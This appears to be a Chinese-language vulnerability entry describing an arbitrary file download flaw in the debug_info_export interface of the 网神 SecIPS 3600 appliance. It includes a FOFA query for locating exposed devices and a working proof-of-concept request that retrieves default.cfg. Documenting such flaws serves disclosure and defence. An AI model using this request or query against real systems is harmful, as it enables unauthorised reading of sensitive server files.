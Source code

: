 # 网神 SecIPS 3600 debug_info_export 任意文件下载漏洞

## 漏洞描述

网神 SecIPS 3600 debug_info_export接口存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器敏感文件

## 漏洞影响

```
网神 SecIPS 3600
```

## FOFA

```
app="网神-SecIPS"
```

## 漏洞复现

登录页面

![image-20230314090018282](images/image-20230314090018282.png)

验证POC

```
/webui/debug/debug_info_export?filename=default.cfg
```

![image-20230314090033658](images/image-20230314090033658.png)